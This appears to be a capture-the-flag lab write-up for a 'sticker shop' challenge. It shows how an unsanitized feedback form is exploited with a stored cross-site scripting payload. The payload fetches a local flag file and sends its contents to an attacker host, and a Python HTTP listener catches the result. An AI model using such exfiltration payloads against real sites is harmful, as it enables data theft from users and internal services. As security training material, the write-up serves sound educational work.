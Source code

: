 ## Target Info

![sticker shop screenshot](./screenshots/sticker-shop01.png)


## Mission
Steal the contents of `http://10.10.197.209:8080/flag.txt`

## Performance

### Go to `http://10.10.197.209:8080/flag.txt`
The result is 401 unauthorized. 

![sticker shop screenshot](./screenshots/sticker-shop02.png)

### Browse the site homepage and discover a “Feedback” page
The feedback page presents a simple text area and “Submit” button, with no input sanitization.

![sticker shop screenshot](./screenshots/sticker-shop03.png)

### Craft the XXS payload
The script will read the local /flag.txt file and send it to the attacker host aka my machine.

    <script>
    fetch('http://127.0.0.1:8080/flag.txt')
      .then(response => response.text())
      .then(data => {
        fetch("http://10.10.15.220:7000/?flag=" + encodeURIComponent(data));
      });
    </script>

What is the code trying to do?
- Fetch the flag: fetch(`http://127.0.0.1:8080/flag.txt`) makes an HTTP request to `http://127.0.0.1:8080/flag.txt` to retrieve the contents of “flag.txt.”

- Read the response as text: Once the request succeeds, .then(response => response.text()) extracts the body of the response as plain text (stored in the variable data).

- Send the flag to my machine: finally, the snippet attempts to send that text (data) to `http://10.10.15.220:7000/` by adding it as a query parameter in the URL: fetch(`http://10.10.15.220:7000/?flag=` + encodeURIComponent(data));
- Using encodeURIComponent(...) ensures special characters (like spaces or symbols) in data are properly encoded so they don’t break the URL.

### Set up the listener (a simple HTTP server) on my machine

    root@ip-10-10-15-220:~# python3 -m http.server 7000
    Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...

The Python HTTP server command prints every incoming GET request (including its full URL and query string) to my terminal so I can see the exfiltrated flag.

### Submit the payload

Copy and paste the payload into the feedback textarea => Click Submit.

### Find the flag

After submitting the script, the listener will recieve the flag!

